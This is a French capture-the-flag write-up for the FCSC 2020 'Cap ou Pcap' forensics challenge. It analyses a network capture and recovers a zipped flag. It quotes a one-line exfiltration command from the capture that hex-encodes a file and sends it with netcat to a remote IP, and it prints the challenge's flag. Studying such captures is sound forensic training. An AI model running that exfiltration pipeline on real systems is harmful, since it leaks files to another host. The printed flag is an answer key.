

# Cap ou Pcap

Bonjoir à tous. On va regarder au challenge Cap ou Pcap du [FCSC 2020](https://www.france-cybersecurity-challenge.fr/)


Dans ce challenge on doit trouver le flag dans [ce fichier](ressources/cap.pcap)

## Kessessé ?

Ce fichier est un fichier de capture réseau. On va donc l'ouvrir avec [Wireshark](https://fr.wikipedia.org/wiki/Wireshark)

Regardons ce qu'il contient


On voit ici des trames [TCP](https://fr.wikipedia.org/wiki/Transmission_Control_Protocol).

En regardant un peu plus bas, on tombe là dessus


On voit une commande chaînée

```shell
xxd -p Documents/flag.zip | tr -d '\n' | netcat 172.20.20.133 20200
```

[`xxd`](http://www.man-linux-magique.net/man1/xxd.html) est un programme qui permet de convertir un fichier en représentation hexadécimale et inversement. (dixit la doc).

[`tr`](http://linuxcommand.org/lc3_man_pages/tr1.html) est un programme qui permet de convertir ou éliminer des caractères. (toujours dixit la doc).

[`netcat`](https://www.commandlinux.com/man-page/man1/nc.1.html) est un programme qui transmet de la donnée à une machine distante en TCP.

Donc, ce que veut dire cette commande c'est :
- Je converti le fichier `Documents/flag.zip` en hexadécimal.
- Je dégage les retours à la ligne (`\n`)
- J'envoie le tout à la machine 172.20.20.133 sur le port 20200

On regarde un peu plus loin dans les trames et on trouve ça


Une trame qui contient pas mal de données. Fort probable que ce soit le fameux `flag.zip`

## Extraction

Du coup on va extraire ces données comme ceci



On va sauvegarder ça dans un fichier qu'on va appeler `flag` par exemple.

On va essayer de faire l'opération inverse de ce qu'on a vu dans les trames TCP un peu plus haut

```shell

xxd -r -p flag > flag.zip
```

On a un fichier `flag.zip` qui vient d'être créé.

On regarde ce qu'il contient


On a bien un fichier `flag.txt`

Si on l'extrait et qu'on affiche son contenu

```shell
root@hostname:~# cat flag.txt
FCSC{6ec28b4e2b0f1bd9eb88257d650f558afec4e23f3449197b4bfc9d61810811e3}
```

HIP HIP HIP ? HOURRA !!!!


